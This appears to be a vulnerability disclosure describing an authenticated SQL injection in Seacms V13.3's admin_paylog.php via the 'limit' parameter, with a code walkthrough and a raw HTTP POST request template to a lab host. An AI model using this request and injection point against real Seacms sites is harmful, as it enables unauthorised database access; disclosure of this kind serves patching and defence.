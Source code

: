 Seacms V13.3 has an SQL injection vulnerability that allows an authenticated attacker to exploit the database.

Download address：https://www.seacms.com/download/



![image-20250114112555007](images/image-20250114112555007.png)



The vulnerability is located in the admin_paylog.php file, starting from line 10, first check whether the value of the '$action' variable is equal to 'add', if so, get the values of 'num' and 'limit' from the POST request, go down to line 17, construct a 'key' value, It consists of $limit, a dash, and an md5 hash of the MD5 value generated in the previous step. Line 18 constructs an SQL insert statement to insert the newly generated key, limit, current time (NOW()), and some other default values into the sea_cck table. Here directly manipulate the database table, and do not limit, use 'to close the limit parameter, resulting in SQL injection problems.

![image-20250114135449068](images/image-20250114135449068.png)





```
POST /seacms/admin/admin_paylog.php?action=add HTTP/1.1
Host: 192.168.1.6
Content-Length: 46
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.6
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.6/seacms/admin/admin_pay.php?action=search
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=m71vec04rhrtoupojs9cei6lh6; mnm_user=admin; mnm_key=YWRtaW46MjJrTkdHVDVLbG9NWTphNDY0YTFkMTcxNzcxMWYxYmMwOWYxYjM3ZjU2ODMxOQ%3D%3D
Connection: close

num=10&limit=100&selectBtn=%E7%94%9F+%E6%88%90
```









![image-20250112210206974](images/image-20250112210206974.png)











